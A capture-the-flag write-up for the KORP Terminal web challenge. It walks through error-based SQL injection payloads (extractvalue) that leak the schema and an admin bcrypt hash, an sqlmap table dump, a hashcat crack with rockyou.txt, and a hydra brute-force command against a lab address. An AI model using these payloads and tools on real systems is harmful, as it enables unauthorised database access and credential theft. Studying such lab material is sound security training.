 # KORP Terminal

[< Go back](../../README.md)

KORP Terminal
Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

<br><br>

The website was just a basic login page, though the auth didn't use http-forms but just a `Basic` auth. I tried running hydra with `http-get` but it didn't work, I don't really know why. So instead I just focused on the webpage itself.

After trying lots of different things I found that the service was vulnerable to SQLi's:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT version()))) --+
```

Response: `1105 (HY000): XPATH syntax error: ':10.11.6-MariaDB'"`

Looking online we don't have any notable exploits for this version, but we can still try to extract some information.

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM table_name LIMIT 1))) --+
```

Response: `"1142 (42000): SELECT command denied to user 'lean'@'localhost' for table'korp_terminal'.'table_name'"`

We learned that the database schema name is `korp_terminal`. And that there is a `lean` user.

Let's try to view how the schema is made up:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_schema = 'korp_terminal'))) --+
```

Response: `1242 (21000): Subquery returns more than 1 row`

Nice let's try to step into the schema cols:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_schema = 'korp_terminal' LIMIT 0,1))) --+
```

Responses:

- for `LIMIT 0,1`: `1105 (HY000): XPATH syntax error: ':id'`
- for `LIMIT 1,1`: `1105 (HY000): XPATH syntax error: ':username'`
- for `LIMIT 2,2`: `1105 (HY000): XPATH syntax error: ':password'`

Because this is a "very easy" challenge, let's try to guess the table name as `users` and extract the username:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT username FROM users LIMIT 0,1))) --
```

Response: `1105 (HY000): XPATH syntax error: ':admin'`

Perfect we have a `admin` user in the `users` table, our guess was correct, let's grab their password:

```sql
' AND extractvalue(rand(),concat(0x3a,(SELECT password FROM users WHERE username = 'admin' LIMIT 0,1))) --
```

We do get the password but it's partially cropped. After spending some time trying to manually investigate, I abandoned and just threw sqlmap at it, it worked pretty damn well:

```bash
sqlmap -u "http://<IP>/" -v 3 --forms --ignore-code=401 -D korp_terminal -T users --dump
# Database: korp_terminal
# Table: users
# [1 entry]
# +----+--------------------------------------------------------------+----------+
# | id | password                                                     | username |
# +----+--------------------------------------------------------------+----------+
# | 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
# +----+--------------------------------------------------------------+----------+
```

I always forget about sqlmap, what a crazy tool. Okay so bcrypt, 12 rounds, this seems weirdly complex for a "very easy" challenge, but ok, let's give it to hashcat with rockyou.txt:

```bash
hashcat -m 3200 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
# $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.:password123
```

I feel betrayed as I've left hydra running in the background over rockyou and it didn't manage to get in... I don't really understand what I did wrong with hydra:

```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt -s 44667 -V 94.237.50.175 http-post /
# I also tried http-get, nothing.
```

Connecting with `admin:password123` we get the flag.
